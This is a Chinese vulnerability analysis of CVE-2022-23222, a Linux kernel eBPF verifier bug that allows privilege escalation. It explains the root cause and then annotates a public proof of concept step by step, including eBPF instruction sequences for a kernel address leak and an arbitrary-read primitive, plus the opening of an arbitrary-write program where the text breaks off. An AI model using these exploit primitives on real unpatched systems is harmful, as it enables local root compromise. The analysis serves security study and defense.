



# CVE-2022-23222漏洞分析

## 一、漏洞背景

CVE-2022-23222 是一个 Linux 内核漏洞，其成因为 eBPF verifier 未阻止某些 \*OR_NULL 类型指针的算数加减运算。利用该漏洞可导致权限提升。

受该漏洞影响的内核版本范围为 5.8 - 5.16 。

该漏洞分别在内核版本 5.10.92、5.15.15、5.16.1 中被修复，其中，5.10.92 版本修复该漏洞的 commit 为 [35ab8c9085b0af847df7fac9571ccd26d9f0f513]([kernel/git/stable/linux.git - Linux kernel stable tree](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/?id=35ab8c9085b0af847df7fac9571ccd26d9f0f513)) 。

## 二、漏洞成因

漏洞形成于 kernel/bpf/verifier.c 的 adjust_ptr_min_max_vals 函数：

```C
static int adjust_ptr_min_max_vals(struct bpf_verifier_env *env,
				   struct bpf_insn *insn,
				   const struct bpf_reg_state *ptr_reg,
				   const struct bpf_reg_state *off_reg)
{
	...

	switch (ptr_reg->type) {
	case PTR_TO_MAP_VALUE_OR_NULL:
		verbose(env, "R%d pointer arithmetic on %s prohibited, null-check it first\n",
			dst, reg_type_str[ptr_reg->type]);
		return -EACCES;
	case CONST_PTR_TO_MAP:
		/* smin_val represents the known value */
		if (known && smin_val == 0 && opcode == BPF_ADD)
			break;
		fallthrough;
	case PTR_TO_PACKET_END:
	case PTR_TO_SOCKET:
	case PTR_TO_SOCKET_OR_NULL:
	case PTR_TO_SOCK_COMMON:
	case PTR_TO_SOCK_COMMON_OR_NULL:
	case PTR_TO_TCP_SOCK:
	case PTR_TO_TCP_SOCK_OR_NULL:
	case PTR_TO_XDP_SOCK:
		verbose(env, "R%d pointer arithmetic on %s prohibited\n",
			dst, reg_type_str[ptr_reg->type]);
		return -EACCES;
	default:
		break;
	}
	
	...
}
```

在禁止特定指针类型的算数加减运算时，没有列举完所有的 \*OR_NULL 类型指针，导致部分 \*OR_NULL 类型指针可以进行非法运算。

所有的 \*OR_NULL 类型指针可以在枚举类型 bpf_reg_type 中找到。

```C
enum bpf_reg_type {
    NOT_INIT = 0,         /* nothing was written into register */
    SCALAR_VALUE,         /* reg doesn't contain a valid pointer */
    PTR_TO_CTX,           /* reg points to bpf_context */
    CONST_PTR_TO_MAP,     /* reg points to struct bpf_map */
    PTR_TO_MAP_VALUE,     /* reg points to map element value */
    PTR_TO_MAP_VALUE_OR_NULL,  /* points to map elem value or NULL */
    PTR_TO_STACK,         /* reg == frame_pointer + offset */
    PTR_TO_PACKET_META,   /* skb->data - meta_len */
    PTR_TO_PACKET,        /* reg points to skb->data */
    PTR_TO_PACKET_END,    /* skb->data + headlen */
    PTR_TO_FLOW_KEYS,     /* reg points to bpf_flow_keys */
    PTR_TO_SOCKET,        /* reg points to struct bpf_sock */
    PTR_TO_SOCKET_OR_NULL,      /* reg points to struct bpf_sock or NULL */
    PTR_TO_SOCK_COMMON,   /* reg points to sock_common */
    PTR_TO_SOCK_COMMON_OR_NULL, /* reg points to sock_common or NULL */
    PTR_TO_TCP_SOCK,      /* reg points to struct tcp_sock */
    PTR_TO_TCP_SOCK_OR_NULL,    /* reg points to struct tcp_sock or NULL */
    PTR_TO_TP_BUFFER,     /* reg points to a writable raw tp's buffer */
    PTR_TO_XDP_SOCK,      /* reg points to struct xdp_sock */
    /* PTR_TO_BTF_ID points to a kernel struct that does not need
     * to be null checked by the BPF program. This does not imply the
     * pointer is _not_ null and in practice this can easily be a null
     * pointer when reading pointer chains. The assumption is program
     * context will handle null pointer dereference typically via fault
     * handling. The verifier must keep this in mind and can make no
     * assumptions about null or non-null when doing branch analysis.
     * Further, when passed into helpers the helpers can not, without
     * additional context, assume the value is non-null.
     */
    PTR_TO_BTF_ID,
    /* PTR_TO_BTF_ID_OR_NULL points to a kernel struct that has not
     * been checked for null. Used primarily to inform the verifier
     * an explicit null check is required for this struct.
     */
    PTR_TO_BTF_ID_OR_NULL,
    PTR_TO_MEM,           /* reg points to valid memory region */
    PTR_TO_MEM_OR_NULL,   /* reg points to valid memory region or NULL */
    PTR_TO_RDONLY_BUF,    /* reg points to a readonly buffer */
    PTR_TO_RDONLY_BUF_OR_NULL,  /* reg points to a readonly buffer or NULL */
    PTR_TO_RDWR_BUF,      /* reg points to a read/write buffer */
    PTR_TO_RDWR_BUF_OR_NULL,    /* reg points to a read/write buffer or NULL */
    PTR_TO_PERCPU_BTF_ID,       /* reg points to a percpu kernel variable */
};
```

可发现漏掉的指针类型包括：

* PTR_TO_BTF_ID_OR_NULL
* PTR_TO_MEM_OR_NULL
* PTR_TO_RDONLY_BUF_OR_NULL
* PTR_TO_RDWR_BUF_OR_NULL

## 三、漏洞相关知识

eBPF (Extended Berkeley Packet Filter) 由 cBPF (Classic Berkeley Packet Filter) 衍生而来，是一项可在内核虚拟机中运行程序的技术。使用eBPF无需修改内核源码，或者插入驱动，对系统的入侵性相对没那么强，可以安全并有效地扩展内核的功能。

### 3.1 eBPF指令

eBPF 使用类似 x86 的虚拟机指令，基础指令为 8 字节，其编码格式为：

| 32 bits (MSB) | 16 bits |     4 bits      |        4 bits        | 8 bits (LSB) |
| :-----------: | :-----: | :-------------: | :------------------: | :----------: |
|   immediate   | offset  | source register | destination register |    opcode    |

扩展指令在基础指令基础上增加 8 个字节的立即数，总长度为 16 字节。

伪指令是内核代码中定义的方便理解记忆的助记符，通常是对真实指令的包装。

下文中出现的指令/伪指令及其功能如下：

|           指令/伪指令            |                  功能                   |
| :------------------------------: | :-------------------------------------: |
|     BPF_MOV64_REG(DST, SRC)      |                dst = src                |
|     BPF_MOV64_IMM(DST, IMM)      |             dst_reg = imm32             |
| BPF_ST_MEM(SIZE, DST, OFF, IMM)  |   *(uint *) (dst_reg + off16) = imm32   |
| BPF_STX_MEM(SIZE, DST, SRC, OFF) |  *(uint *) (dst_reg + off16) = src_reg  |
| BPF_LDX_MEM(SIZE, DST, SRC, OFF) |  dst_reg = *(uint *) (src_reg + off16)  |
|   BPF_ALU64_IMM(OP, DST, IMM)    |      dst_reg = dst_reg 'op' imm32       |
|  BPF_JMP_IMM(OP, DST, IMM, OFF)  | if (dst_reg 'op' imm32) goto pc + off16 |
|    BPF_LD_MAP_FD(DST, MAP_FD)    |              dst = map_fd               |
|         BPF_EXIT_INSN()          |                  exit                   |

### 3.2 eBPF寄存器

eBPF 共有 11 个寄存器，其中 R10 是只读的帧指针，剩余 10 个是通用寄存器。

- R0: 保存函数返回值，及 eBPF 程序退出值
- R1 - R5: 传递函数参数，调用函数保存
- R6 - R9: 被调用函数保存
- R10: 只读的帧指针

### 3.3 eBPF程序类型

所有 eBPF 程序类型定义在以下枚举类型：

```C
enum bpf_prog_type {
	BPF_PROG_TYPE_UNSPEC = 0,
	BPF_PROG_TYPE_SOCKET_FILTER = 1,
	BPF_PROG_TYPE_KPROBE = 2,
	BPF_PROG_TYPE_SCHED_CLS = 3,
	BPF_PROG_TYPE_SCHED_ACT = 4,
	BPF_PROG_TYPE_TRACEPOINT = 5,
	BPF_PROG_TYPE_XDP = 6,
	BPF_PROG_TYPE_PERF_EVENT = 7,
	BPF_PROG_TYPE_CGROUP_SKB = 8,
	BPF_PROG_TYPE_CGROUP_SOCK = 9,
	BPF_PROG_TYPE_LWT_IN = 10,
	BPF_PROG_TYPE_LWT_OUT = 11,
	BPF_PROG_TYPE_LWT_XMIT = 12,
	BPF_PROG_TYPE_SOCK_OPS = 13,
	BPF_PROG_TYPE_SK_SKB = 14,
	BPF_PROG_TYPE_CGROUP_DEVICE = 15,
	BPF_PROG_TYPE_SK_MSG = 16,
	BPF_PROG_TYPE_RAW_TRACEPOINT = 17,
	BPF_PROG_TYPE_CGROUP_SOCK_ADDR = 18,
	BPF_PROG_TYPE_LWT_SEG6LOCAL = 19,
	BPF_PROG_TYPE_LIRC_MODE2 = 20,
	BPF_PROG_TYPE_SK_REUSEPORT = 21,
	BPF_PROG_TYPE_FLOW_DISSECTOR = 22,
	BPF_PROG_TYPE_CGROUP_SYSCTL = 23,
	BPF_PROG_TYPE_RAW_TRACEPOINT_WRITABLE = 24,
	BPF_PROG_TYPE_CGROUP_SOCKOPT = 25,
	BPF_PROG_TYPE_TRACING = 26,
	BPF_PROG_TYPE_STRUCT_OPS = 27,
	BPF_PROG_TYPE_EXT = 28,
	BPF_PROG_TYPE_LSM = 29,
	BPF_PROG_TYPE_SK_LOOKUP = 30,
	BPF_PROG_TYPE_SYSCALL = 31,
};
```

下文涉及到的类型只有 BPF_PROG_TYPE_SOCKET_FILTER 。该类型 eBPF 程序通过 setsockopt 附加到指定 socket 上面，对 socket 的流量进行追踪、过滤，可附加的 socket 类型包括 UNIX socket 。

该类型程序的传入参数为结构体 __sk_buff 指针，可通过调用 bpf_skb_load_bytes_relative 辅助函数经由该结构体获取 socket 流量。

### 3.4 eBPF map

eBPF map 是 eBPF 程序和用户态进行数据交换的媒介。其类型包括：

```c
enum bpf_map_type {
	BPF_MAP_TYPE_UNSPEC = 0,
	BPF_MAP_TYPE_HASH = 1,
	BPF_MAP_TYPE_ARRAY = 2,
	BPF_MAP_TYPE_PROG_ARRAY = 3,
	BPF_MAP_TYPE_PERF_EVENT_ARRAY = 4,
	BPF_MAP_TYPE_PERCPU_HASH = 5,
	BPF_MAP_TYPE_PERCPU_ARRAY = 6,
	BPF_MAP_TYPE_STACK_TRACE = 7,
	BPF_MAP_TYPE_CGROUP_ARRAY = 8,
	BPF_MAP_TYPE_LRU_HASH = 9,
	BPF_MAP_TYPE_LRU_PERCPU_HASH = 10,
	BPF_MAP_TYPE_LPM_TRIE = 11,
	BPF_MAP_TYPE_ARRAY_OF_MAPS = 12,
	BPF_MAP_TYPE_HASH_OF_MAPS = 13,
	BPF_MAP_TYPE_DEVMAP = 14,
	BPF_MAP_TYPE_SOCKMAP = 15,
	BPF_MAP_TYPE_CPUMAP = 16,
	BPF_MAP_TYPE_XSKMAP = 17,
	BPF_MAP_TYPE_SOCKHASH = 18,
	BPF_MAP_TYPE_CGROUP_STORAGE = 19,
	BPF_MAP_TYPE_REUSEPORT_SOCKARRAY = 20,
	BPF_MAP_TYPE_PERCPU_CGROUP_STORAGE = 21,
	BPF_MAP_TYPE_QUEUE = 22,
	BPF_MAP_TYPE_STACK = 23,
	BPF_MAP_TYPE_SK_STORAGE = 24,
	BPF_MAP_TYPE_DEVMAP_HASH = 25,
	BPF_MAP_TYPE_STRUCT_OPS = 26,
	BPF_MAP_TYPE_RINGBUF = 27,
	BPF_MAP_TYPE_INODE_STORAGE = 28,
	BPF_MAP_TYPE_TASK_STORAGE = 29,
};
```

下文使用到的类型包括 BPF_MAP_TYPE_ARRAY 和 BPF_MAP_TYPE_RINGBUF 。

顾名思义，BPF_MAP_TYPE_ARRAY 类似数组，索引为整形，值可为任意长度的内存对象。

BPF_MAP_TYPE_RINGBUF 是环形缓冲区，如果写入的数据来不及读取，导致积累的数据超过缓冲区长度，新数据则会覆盖掉旧数据。

### 3.5 eBPF辅助函数

eBPF 辅助函数（eBPF helper）是可在 eBPF 程序中使用的辅助函数。

内核规定了不同类型的eBPF程序可使用哪些辅助函数，比如，bpf_skb_load_bytes_relative 只有 socket 相关的 eBPF 程序可使用。

各 eBPF 辅助函数的函数原型由内核定义，下文使用到的一些辅助函数的原型如下：

```C
const struct bpf_func_proto bpf_map_lookup_elem_proto = {
	.func		= bpf_map_lookup_elem,
	.gpl_only	= false,
	.pkt_access	= true,
	.ret_type	= RET_PTR_TO_MAP_VALUE_OR_NULL,
	.arg1_type	= ARG_CONST_MAP_PTR,
	.arg2_type	= ARG_PTR_TO_MAP_KEY,
};

const struct bpf_func_proto bpf_ringbuf_reserve_proto = {
	.func		= bpf_ringbuf_reserve,
	.ret_type	= RET_PTR_TO_ALLOC_MEM_OR_NULL,
	.arg1_type	= ARG_CONST_MAP_PTR,
	.arg2_type	= ARG_CONST_ALLOC_SIZE_OR_ZERO,
	.arg3_type	= ARG_ANYTHING,
};
```

可见 bpf_map_lookup_elem 的返回值类型是 RET_PTR_TO_MAP_VALUE_OR_NULL ，bpf_ringbuf_reserve 的返回值类型是RET_PTR_TO_ALLOC_MEM_OR_NULL 。

各 eBPF 辅助函数的功能可通过 man bpf-helpers 命令查看。

### 3.6 eBPF verifier

eBPF 程序在加载进内核之前，必须通过 eBPF verifier 的检查。只有符合要求的 eBPF 程序才允许被加载进内核，这是为了防止 eBPF 程序对内核进行破坏。

eBPF verifier 对 eBPF 程序的限制包括：

- 不能调用任意的内核函数，只限于内核模块中列出的 eBPF helper 函数
- 不允许包含无法到达的指令，防止加载无效代码，延迟程序的终止。
- 限制循环次数，必须在有限次内结束。
- 栈大小被限制为 MAX_BPF_STACK，截止到内核 5.10.83 版本，被设置为 512。
- 限制 eBPF 程序的复杂度，verifier 处理的指令数不得超过 BPF_COMPLEXITY_LIMIT_INSNS，截止到内核 5.10.83 版本，被设置为100万。
- 限制 eBPF 程序对内存的访问，比如不得访问未初始化的栈，不得越界访问 eBPF map 。

## 四、POC分析

POC 地址为：[https://github.com/tr3ee/CVE-2022-23222](https://github.com/tr3ee/CVE-2022-23222)

漏洞整体利用思路是通过欺骗 eBPF verifier 泄露内核地址，并实现内核任意地址读、写原语，通过任意读原语搜索进程 cred 所在地址，通过任意写原语修改进程 cred 以实现提权。

### 4.1 前置准备

创建 2 个 eBPF map ，类型分别为 BPF_MAP_TYPE_ARRAY 及 BPF_MAP_TYPE_RINGBUF。

```c
ret = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(u32), PAGE_SIZE, 1);
if (ret < 0) {
WARNF("Failed to create comm map: %d (%s)", ret, strerror(-ret));
return ret;
}
ctx->comm_fd = ret;

if ((ret = bpf_create_map(BPF_MAP_TYPE_RINGBUF, 0, 0, PAGE_SIZE)) < 0) {
WARNF("Could not create ringbuf map: %d (%s)", ret, strerror(-ret));
return ret;
}
ctx->ringbuf_fd = ret;
```

前者在 POC 中的作用为：

1. 和内核交换数据。
2. 泄露其元素的地址。

后者的作用则为：

1. 和内核交换数据。
2. 通过 bpf_ringbuf_reserve 辅助函数获取 PTR_TO_MEM_OR_NULL 类型指针 。

### 4.2 泄露内核地址

泄露内核地址的方法为构造特定的 eBFP 程序以利用前述漏洞。

先将 r1 保存到 r9 。r1 在进入 eBPF 程序之前被内核初始化为指向 skb 的指针。

```C
// r9 = r1
BPF_MOV64_REG(BPF_REG_9, BPF_REG_1)
```

获取 array 指针，保存在 r0 。调试发现，array 指针都是 0xFFFF...10 这种格式。

```C
// r0 = bpf_lookup_elem(ctx->comm_fd, 0)
BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd)
BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0)
BPF_MOV64_REG(BPF_REG_2, BPF_REG_10)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem)
```

上一步获取的 r0 类型为 PTR_TO_MAP_VALUE_OR_NULL 。进行以下判断后，在 false 分支 r0 类型就变成 PTR_TO_MAP_VALUE。

```C
// if (r0 == NULL) exit(1)
BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2)
BPF_MOV64_IMM(BPF_REG_0, 1)
BPF_EXIT_INSN()
```

将 array 指针保存进 r8。

```C
// r8 = r0
BPF_MOV64_REG(BPF_REG_8, BPF_REG_0)
```

调用 bpf_ringbuf_reserve 函数，请求 PAGE_SIZE 的 ringbuf 内存，返回值为 PTR_TO_MEM_OR_NULL 类型指针，属于漏洞中没有过滤的指针类型。

```C
// r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd)
BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE)
BPF_MOV64_IMM(BPF_REG_3, 0x00)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve)
```

复制 r0 到 r1 ，r1 的类型变为 PTR_TO_MEM_OR_NULL ，id 也变成 r0 的 id 。这里提一下，verifier 会维护 eBPF 寄存器的 id 属性，用于追踪指针类型的来源。

```C
// r0 = r1
BPF_MOV64_REG(BPF_REG_1, BPF_REG_0)
```

之后，r1 自身加 1。

```C
// r1 = r1 + 1
BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1)
```

参考 adjust_ptr_min_max_vals 函数的代码，在指针加减操作中，目标寄存器的 id 和类型会变成指针寄存器的 id 和类型。由于在上一步中  r1 既是目标寄存器也是指针寄存器，其 id 和类型保持不变。

```C
static int adjust_ptr_min_max_vals(struct bpf_verifier_env *env,
				   struct bpf_insn *insn,
				   const struct bpf_reg_state *ptr_reg,
				   const struct bpf_reg_state *off_reg)
{
	...

	/* In case of 'scalar += pointer', dst_reg inherits pointer type and id.
	 * The id may be overwritten later if we create a new variable offset.
	 */
	dst_reg->type = ptr_reg->type;
	dst_reg->id = ptr_reg->id;
	
    ...
}
```

检查 r0 是否为 NULL 。事实上，r0 不为 NULL 的情况不可能发生。ringbuf 的大小虽然为 PAGE_SIZE ，但其中一部分用于存储关于 ringbuf 的结构体，剩下的才用于存储数据。因此，请求保留 PAGE_SIZE 的内存不可能实现。经过此步骤后，r0 的类型变为 SCALAR_VALUE ，其值为 0 。那么，与 r0 具有相同 id 的 r1 的类型和值又会如何变化呢？

```C
// if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5)
BPF_MOV64_REG(BPF_REG_1, BPF_REG_0)
BPF_MOV64_IMM(BPF_REG_2, 1)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard)
BPF_MOV64_IMM(BPF_REG_0, 2)
BPF_EXIT_INSN()
```

check_cond_jmp_op 是 verifier 中检查 JMP 指令的函数，当 JMP 指令的条件是 *OR_NULL 类型指针和 0 比较时，会通过 mark_ptr_or_null_regs 函数改变不同分支中寄存器的类型。

```C
static int check_cond_jmp_op(struct bpf_verifier_env *env,
			     struct bpf_insn *insn, int *insn_idx)
{
	...

	/* detect if R == 0 where R is returned from bpf_map_lookup_elem().
	 * NOTE: these optimizations below are related with pointer comparison
	 *       which will never be JMP32.
	 */
	if (!is_jmp32 && BPF_SRC(insn->code) == BPF_K &&
	    insn->imm == 0 && (opcode == BPF_JEQ || opcode == BPF_JNE) &&
	    reg_type_may_be_null(dst_reg->type)) {
		/* Mark all identical registers in each branch as either
		 * safe or unknown depending R == 0 or R != 0 conditional.
		 */
		mark_ptr_or_null_regs(this_branch, insn->dst_reg,
				      opcode == BPF_JNE);
		mark_ptr_or_null_regs(other_branch, insn->dst_reg,
				      opcode == BPF_JEQ);
	}
    
    ...
}
```

mark_ptr_or_null_regs 函数又调用了 __mark_ptr_or_null_regs 函数，在后者中，所有相同 id 的寄存器都会被 mark_ptr_or_null_reg 函数进行相同的处理。因此，后续 r1 也会变成 SCALAR_VALUE 类型，且 verifier 认为其值为 0 。然而，事实上 r1 的值为 1 。这就是漏洞所在，PTR_TO_MEM_OR_NULL 类型的指针无论经过加减运算变成何值，只要经过是否为 NULL 的判断，在其中一个分支 verifier 都会认为其值为 0 。

```C
static void __mark_ptr_or_null_regs(struct bpf_func_state *state, u32 id,
				    bool is_null)
{
	...

	for (i = 0; i < MAX_BPF_REG; i++)
		mark_ptr_or_null_reg(state, &state->regs[i], id, is_null);

	...
}

static void mark_ptr_or_null_reg(struct bpf_func_state *state,
				 struct bpf_reg_state *reg, u32 id,
				 bool is_null)
{
    ...
        
		if (WARN_ON_ONCE(reg->smin_value || reg->smax_value ||
				 !tnum_equals_const(reg->var_off, 0) ||
				 reg->off)) {
			__mark_reg_known_zero(reg);
			reg->off = 0;
		}
		if (is_null) {
			reg->type = SCALAR_VALUE;
		}
   
    ...
}
```

接着，将 r1+8 保存到 r7 。verifier 认为 r7 值为 8 ，实际上 r7 值为 9 。再将 array 指针 r8 加上 0xE0 的值保存到 r10-8 处，之所以加上 0xE0 是为了泄露更多数据，后面会补充说明。



通过 bpf_skb_load_bytes_relative 向 r10-16 写入 r7 个字节，即 9 个字节，溢出了 1 个字节。所写入的数据是可控的，可在用户态通过写入 socket 传递进内核态。在这里将控制写入数据为全零数据，即 r10-8 处的字节会被 0x00 覆盖。



```C
// r7 = r1 + 8
BPF_MOV64_REG(BPF_REG_7, BPF_REG_1)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 8)

// r6 = r8 - 0xE0
BPF_MOV64_REG(BPF_REG_6, BPF_REG_8)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 0xE0)
// *(u64 *)(r10 - 8) = r6
BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_6, -8)

// 这里会将r10-16后r7个字节置零。
// r0 = bpf_skb_load_bytes_relative(r9, 0, r10-16, r7, 0)
BPF_MOV64_REG(BPF_REG_1, BPF_REG_9)
BPF_MOV64_IMM(BPF_REG_2, 0)
BPF_MOV64_REG(BPF_REG_3, BPF_REG_10)
BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16)
BPF_MOV64_REG(BPF_REG_4, BPF_REG_7)
BPF_MOV64_IMM(BPF_REG_5, 1)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative)
```

将栈上的 array 指针取出，并减去 0xE0 ，与前面对应，结果保存进 r6 。一加一减，verifier会认为 r6 仍为 array 指针，即等于 0xFFFF...10 。而实际上，r6 等于 0xFFFF...10 - 0xE0 。这里可以选择加减 0x10 ~ 0xE0 ，选择 0xE0 泄露的数据较多。接着，将 r6 所指向的 PAGE_SIZE 字节数据复制到 array 指针处，实现信息泄露。调试发现，泄露的数据中就包含 array 指针，在 0xFFFF...10 - 0x50 处。



```C
// r6 = *(u64 *)(r10 - 8) - 0xE0
BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8)
BPF_ALU64_IMM(BPF_SUB, BPF_REG_6, 0xE0)

// 将r6所指向的4096字节数据写入array map，实现信息泄露。
// 调试发现，r6+0xa0处为array map的地址。
// map_update_elem(ctx->comm_fd, 0, r6, 0)
BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd)
BPF_MOV64_REG(BPF_REG_2, BPF_REG_8)
BPF_MOV64_REG(BPF_REG_3, BPF_REG_6)
BPF_MOV64_IMM(BPF_REG_4, 0)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_update_elem)
```

构造好程序后，就可将其加载进内核，attach 到 socket 上，向 socket 写入全零数据以覆盖栈上的 array 指针，再从 array map 中获取泄露的数据，从中找出 array 指针。

```C
int prog = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, insn, sizeof(insn) / sizeof(insn[0]), "");
if (prog < 0) {
    WARNF("Could not load program(do_leak):\n %s", bpf_log_buf);
    goto abort;
}

int err = bpf_prog_skb_run(prog, ctx->bytes, 8);

if (err != 0) {
    WARNF("Could not run program(do_leak): %d (%s)", err, strerror(err));
    goto abort;
}

int key = 0;
err = bpf_lookup_elem(ctx->comm_fd, &key, ctx->bytes);
if (err != 0) {
    WARNF("Could not lookup comm map: %d (%s)", err, strerror(err));
    goto abort;
}

u64 array_map = (u64)ctx->ptrs[20] & (~0xFFL);
if ((array_map&0xFFFFF00000000000) != 0xFFFF800000000000) {
    WARNF("Could not leak array map: got %p", (kaddr_t)array_map);
    goto abort;
}

static __always_inline int
bpf_prog_skb_run(int prog_fd, const void *data, size_t size)
{
    int err, socks[2] = {};

    if (socketpair(AF_UNIX, SOCK_DGRAM, 0, socks) != 0)
        return errno;
    
    if (setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF,
                    &prog_fd, sizeof(prog_fd)) != 0)
    {
        err = errno;
        goto abort;
    }

    if (write(socks[1], data, size) != size)
    {
        err = -1;
        goto abort;
    }

    err = 0;
    
abort:
    close(socks[0]);
    close(socks[1]);
    return err;
}
```

### 4.3 构造任意读、写原语

接下来构造的 eBPF 程序和上一程序及其类似，因此通过添加注释的方式进行说明。

实现任意读原语的 eBPF 程序：

```c
struct bpf_insn arbitrary_read[] = {
    // 保存r1，r1被内核初始化为指向skb的指针。
    // r9 = r1
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),
	
    // 获取array指针，r0类型为PTR_TO_MAP_VALUE_OR_NULL。
    // r0 = bpf_lookup_elem(ctx->comm_fd, 0)
    BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
    BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0),
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
	
    // 必需的判断，令false分支的r0变成PTR_TO_MAP_VALUE类型。
    // if (r0 == NULL) exit(1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 1),
    BPF_EXIT_INSN(),
	
    // 将array指针保存进r8。
    // r8 = r0
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),
	
    // 获取PTR_TO_MEM_OR_NULL类型指针，保存在r0。
    // r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
    BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd),
    BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE),
    BPF_MOV64_IMM(BPF_REG_3, 0x00),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),
	
    // 复制PTR_TO_MEM_OR_NULL类型指针，副本保存在r1。
    // r1 = r0
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    // r1 = r1 + 1
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

    // 不可能发生。ringbuf的大小虽然为PAGE_SIZE，但其中一部分用于存储关于ringbuf的结构体，剩下的才用于存储数据。
    // 因此，请求保留PAGE_SIZE的内存不可能实现。
    // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
    BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    BPF_MOV64_IMM(BPF_REG_2, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
    BPF_MOV64_IMM(BPF_REG_0, 2),
    BPF_EXIT_INSN(),

    // 经过上面的NULL检查后，verifier认为r0=0。
    // 由于r1是由r0派生出来的，因此verifier也会认为r1=0。但实际上，r1=1。

    // r7 = (r1 + 1) * 8
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 1),
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_7, 8),

    // verifier认为r7=8，但实际上r7=16。

    // 调试发现array指针都是0xFFFF..........10
    // 将该指针保存到r10-8处
    // *(u64 *)(r10 - 8) = r8
    BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_8, -8),

    // 向r10-16写入r7=16个字节，覆盖r10-8处的array指针。
    // 写入字节为可控，可将array指针改成任意地址。
    // r0 = bpf_skb_load_bytes_relative(r9, 0, r10-16, r7, 0)
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),
    BPF_MOV64_IMM(BPF_REG_2, 0),
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -16),
    BPF_MOV64_REG(BPF_REG_4, BPF_REG_7),
    BPF_MOV64_IMM(BPF_REG_5, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes_relative),

    // 获取修改后的指针。
    // r6 = *(u64 *)(r10 - 8)
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8),
	
    // 获取修改后指针所指向的8个字节数据，实现任意读。
    // 之所以可以读取成功，是因为verifier以为该指针仍为array指针。
    // r0 = *(u64 *)(r6 + 0)
    BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_6, 0),
    
    // 将读取的数据写入array map传回用户态。
    // *(u64 *)(r8 + 0) = r0
    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_0, 0),

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN()
};
```

实现任意写原语的 eBPF 程序：

```C
struct bpf_insn arbitrary_write[] = {
    // 保存r1，r1被内核初始化为指向skb的指针。
    // r9 = r1
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),
	
    // 获取array指针，r0类型为PTR_TO_MAP_VALUE_OR_NULL。
    // r0 = bpf_lookup_elem(ctx->comm_fd, 0)
    BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
